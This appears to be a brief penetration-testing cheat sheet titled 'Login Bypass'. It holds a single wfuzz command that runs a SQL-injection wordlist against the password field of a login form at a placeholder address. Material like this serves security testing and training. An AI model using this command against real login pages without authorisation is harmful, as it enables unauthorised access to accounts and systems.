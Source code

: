 # Login Bypass 

## Login SQL injection wfuzz

wfuzz can be used to try lot of sql-injection samples

```cheat wfuzz Simple Brute Force Attack (SQL injection)
wfuzz -w sql-list -d 'username=admin&password=FUZZ' http://x.x.x.x/login.php/
```
##  

##

##

tags: web login bypass sql wfuzz christian

